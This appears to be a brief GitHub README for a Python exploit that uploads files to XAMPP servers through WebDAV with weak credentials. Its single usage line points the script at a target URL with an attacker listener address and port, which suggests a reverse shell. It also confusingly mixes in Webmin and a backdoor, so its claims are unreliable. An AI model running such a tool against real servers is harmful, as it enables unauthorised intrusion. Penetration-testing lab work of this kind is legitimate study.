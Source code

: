 # webdav_expXampp Webdav arbitrary File upload

```
1.  Xampp Servers with weak WebDav Credentials
```

### Script Usage:
#### Tested on v1.890, but should also work for other webmin versions in which this backdoor is installed.
`python webdav_exploit.py -t http://10.11.1.136/webdav -l 172.16.1.1 -p 4444`

[Instagram](https://www.instagram.com/fkerem.py/)
